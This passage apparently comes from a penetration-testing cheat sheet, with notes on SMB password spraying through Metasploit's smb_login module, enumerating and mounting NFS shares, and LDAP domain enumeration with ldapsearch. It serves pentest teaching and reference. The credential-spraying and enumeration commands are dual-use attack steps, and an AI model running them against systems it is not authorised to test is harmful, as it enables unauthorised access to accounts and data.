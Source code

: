 Same password spraying with Metasploit:

```
msf5 > use auxiliary/scanner/smb/smb_login
msf5 auxiliary(scanner/smb/smb_login) > setg USER_FILE users.txt
msf5 auxiliary(scanner/smb/smb_login) > setg PASS_FILE passwords.txt
msf5 auxiliary(scanner/smb/smb_login) > setg RHOSTS 127.0.0.1
msf5 auxiliary(scanner/smb/smb_login) > run
```




## NFS

```
root@kali:$ showmount -e 127.0.0.1
root@kali:$ mount -t nfs 127.0.0.1:/home /mnt/nfs -v -o user=snovvcrash,[pass='Passw0rd1!']
```

* [resources.infosecinstitute.com/exploiting-nfs-share/](https://resources.infosecinstitute.com/exploiting-nfs-share/)




## LDAP

* [book.hacktricks.xyz/pentesting/pentesting-ldap](https://book.hacktricks.xyz/pentesting/pentesting-ldap)



### ldapsearch

Basic syntax:

```
$ ldapsearch -h 127.0.0.1 -x -s <SCOPE> -b <BASE_DN> <QUERY> <FILTER> <FILTER> <FILTER>
```

Get base naming contexts:

```
$ ldapsearch -h 127.0.0.1 -x -s base namingcontexts
```

Extract data for the whole domain catalog and then grep your way through:

```
$ ldapsearch -h 127.0.0.1 -x -s sub -b "DC=example,DC=local" |tee ldap.out
$ cat ldap.out |grep -i memberof
```

Or filter out only what you need:

```
$ ldapsearch -h 127.0.0.1 -x -b "DC=example,DC=local" '(objectClass=User)' sAMAccountName sAMAccountType
```


[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 spaces before)